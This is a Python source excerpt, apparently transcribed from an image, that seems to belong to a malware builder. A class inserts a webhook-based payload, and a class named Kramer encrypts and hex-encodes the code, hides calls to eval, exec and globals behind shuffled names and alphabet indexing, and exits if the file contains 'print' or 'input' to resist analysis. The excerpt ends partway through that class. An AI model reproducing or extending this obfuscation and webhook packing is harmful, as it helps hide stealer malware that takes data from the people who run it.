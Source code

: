     def _encrypt(text: str, key: str = None) -> str:
        if type(key) == str:
            key = sum(ord(i) for i in key)
        t = [chr(ord(t)+key)if t != "\n" else "ζ" for t in text]
        return "".join(t)

    def _decrypt(text: str, key: str = None) -> str:
        if type(key) == str:
            key = sum(ord(i) for i in key)
        return "".join(chr(ord(t)-key) if t != "ζ" else "\n" for t in text)




class Riot:
    def riot(self) -> None:
        self.content = Make.riot(webhook=self.webhook, ping=self.ping)
        return None
        

class Scarecrow:
    def scarecrow(self) -> None:
        self.content = Make.scarecrow + self.content
        return None

class Kramer:
    def kramer(self) -> None:
        self.key = self._ran_int()
        _content_ = Kyrie.encrypt(self.content, key=self.key)

        _lines_sep_ = '/'


        content = _lines_sep_.join(hexlify(x.encode()).decode() for x in _content_)

        _names_ = ["_eval", "_exec", "_byte", "_bytes", "_bit", "_bits", "_system", "_encode", "_decode", "_delete", "_exit", "_rasputin", "_D0XHCK"]
        _names_ = ["self." + name for name in _names_]
        shuffle(_names_)

        for k in range(12):
            globals()[f'n_{str(k+1)}'] = _names_[k]
        

        _types_ = ("str","float","bool","int")


        _1_ = fr"""_n5_""",fr"""lambda _n9_:"".join(__import__(_n7_[1]+_n7_[8]+_n7_[13]+_n7_[0]+_n7_[18]+_n7_[2]+_n7_[8]+_n7_[8]).unhexlify(str(_n10_)).decode()for _n10_ in str(_n9_).split('{_lines_sep_}'))"""
        _2_ = fr"""_n6_""",r"""lambda _n1_:str(_n4_[_n2_](f"{_n7_[4]+_n7_[-13]+_n7_[4]+_n7_[2]}(''.join(%s),{_n7_[6]+_n7_[11]+_n7_[14]+_n7_[1]+_n7_[0]+_n7_[11]+_n7_[18]}())"%list(_n1_))).encode(_n7_[20]+_n7_[19]+_n7_[5]+_n7_[34])if _n4_[_n2_]==eval else exit()"""
        _3_ = fr"""_n4_[_n2_]""",fr"""eval"""
        _4_ = fr"""_n1_""",fr"""lambda _n1_:exit()if _n7_[15]+_n7_[17]+_n7_[8]+_n7_[13]+_n7_[19] in open(__file__, errors=_n7_[8]+_n7_[6]+_n7_[13]+_n7_[14]+_n7_[17]+_n7_[4]).read() or _n7_[8]+_n7_[13]+_n7_[15]+_n7_[20]+_n7_[19] in open(__file__, errors=_n7_[8]+_n7_[6]+_n7_[13]+_n7_[14]+_n7_[17]+_n7_[4]).read()else"".join(_n1_ if _n1_ not in _n7_ else _n7_[_n7_.index(_n1_)+1 if _n7_.index(_n1_)+1<len(_n7_)else 0]for _n1_ in "".join(chr(ord(t)-{self.key})if t!="ζ"else"\n"for t in _n5_(_n1_)))"""
        _5_ = fr"""_n7_""",fr"""exit()if _n1_ else'abcdefghijklmnopqrstuvwxyz0123456789'"""
        _6_ = fr"""_n8_""",fr"""lambda _n12_:_n6_(_n1_(_n12_))"""
        _all_ = [_1_, _2_, _3_, _4_, _5_, _6_]
    